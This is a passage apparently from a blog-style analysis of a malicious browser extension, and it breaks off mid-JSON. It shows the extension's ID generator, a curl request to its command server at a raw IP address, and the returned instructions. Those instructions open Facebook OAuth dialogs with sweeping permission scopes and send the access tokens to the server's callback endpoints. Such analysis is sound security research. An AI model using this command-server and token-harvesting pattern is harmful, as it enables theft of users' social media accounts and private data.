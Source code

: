 The `uid` variable is a unique identifier for your machine, and is generated by a function called `generateUID()`:

{% highlight javascript linenos %}
function generateUID() {
	var array = new Uint32Array(8);
	window.crypto.getRandomValues(array);
	
	return [].map.call(array, function(n) {
		return n.toString(16)
	}).join('');
}
{% endhighlight %}

I ran it once, and it gave me:

{% highlight bash %}
c38ae4ec1d2820bc9e2c03c0fe517585644576c988a03ae84af63b6d2bc9e7
{% endhighlight %}

So this is what I'll use as an example. You'll need to create your own <abbr title="Unique Identifier">UID</abbr> if you want to get your very own instructions. To simulate a request to the server, I ran:

{% highlight bash %}
curl -o actions.json http://159.203.99.206/api/get/c38ae4ec1d2820bc9e2c03c0fe517585644576c988a03ae84af63b6d2bc9e7
{% endhighlight %}

This returns a JSON file containing a list of actions that the extension will undertake. Here are the instruction I got:

{% highlight json linenos %}
{
	"actions": [
		{
			"actionType": "ap",
			"data": {
				"url": "https://www.facebook.com/dialog/oauth?redirect_uri=http%3A%2F%2Fwww.facebook.com%2Fconnect%2Flogin_success.html&scope=email%2Cpublish_actions%2Cuser_about_me%2Cuser_actions.books%2Cuser_actions.music%2Cuser_actions.news%2Cuser_actions.video%2Cuser_activities%2Cuser_birthday%2Cuser_education_history%2Cuser_events%2Cuser_games_activity%2Cuser_groups%2Cuser_hometown%2Cuser_interests%2Cuser_likes%2Cuser_location%2Cuser_notes%2Cuser_photos%2Cuser_questions%2Cuser_relationship_details%2Cuser_relationships%2Cuser_religion_politics%2Cuser_status%2Cuser_subscriptions%2Cuser_videos%2Cuser_website%2Cuser_work_history%2Cfriends_about_me%2Cfriends_actions.books%2Cfriends_actions.music%2Cfriends_actions.news%2Cfriends_actions.video%2Cfriends_activities%2Cfriends_birthday%2Cfriends_education_history%2Cfriends_events%2Cfriends_games_activity%2Cfriends_groups%2Cfriends_hometown%2Cfriends_interests%2Cfriends_likes%2Cfriends_location%2Cfriends_notes%2Cfriends_photos%2Cfriends_questions%2Cfriends_relationship_details%2Cfriends_relationships%2Cfriends_religion_politics%2Cfriends_status%2Cfriends_subscriptions%2Cfriends_videos%2Cfriends_website%2Cfriends_work_history%2Cads_management%2Ccreate_event%2Ccreate_note%2Cexport_stream%2Cfriends_online_presence%2Cmanage_friendlists%2Cmanage_notifications%2Cmanage_pages%2Cphoto_upload%2Cpublish_stream%2Cread_friendlists%2Cread_insights%2Cread_mailbox%2Cread_page_mailboxes%2Cread_requests%2Cread_stream%2Crsvp_event%2Cshare_item%2Csms%2Cstatus_update%2Cuser_online_presence%2Cvideo_upload%2Cxmpp_login&response_type=token&client_id=41158896424&_rdr",
				"callback": "http://159.203.99.206/api/getToken"
			}
		},
		{
			"actionType": "ap",
			"data": {
				"url": "https://www.facebook.com/dialog/oauth?redirect_uri=http%3A%2F%2Fwww.facebook.com%2Fconnect%2Flogin_success.html&scope=email%2Cpublish_actions&response_type=token&client_id=241284008322&_rdr",
				"callback": "http://159.203.99.206/api/getToken2"
			}
		},
		{